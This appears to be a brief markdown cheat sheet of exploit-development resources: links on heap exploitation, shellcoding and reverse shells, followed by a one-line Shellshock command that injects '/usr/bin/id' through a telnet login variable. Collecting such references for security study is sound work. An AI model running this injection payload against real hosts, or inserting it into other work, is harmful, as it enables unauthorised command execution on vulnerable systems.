 # Search
- https://sploitus.com/
- Syscall table: https://w3challs.com/syscalls/

# References
- Heap Exploitation | Playing with chunks!: https://0x00sec.org/t/heap-exploitation-playing-with-chunks/2055
- Heap Exploitation - Fastbin Attack: https://0x00sec.org/t/heap-exploitation-fastbin-attack/3627
- Analysis of public exploits or my 1day exploits: https://github.com/externalist/exploit_playground
- Shellcoding for Linux and Windows Tutorial: http://www.vividmachines.com/shellcode/shellcode.html
- Voltron is an extensible debugger UI toolkit written in Python: https://github.com/snare/voltron
- Reverse Shell from an OpenVPN Configuration File: https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da

# Shellshock over Telnet

```
telnet 192.168.0.1 -l "() { :;}; /usr/bin/id"

```
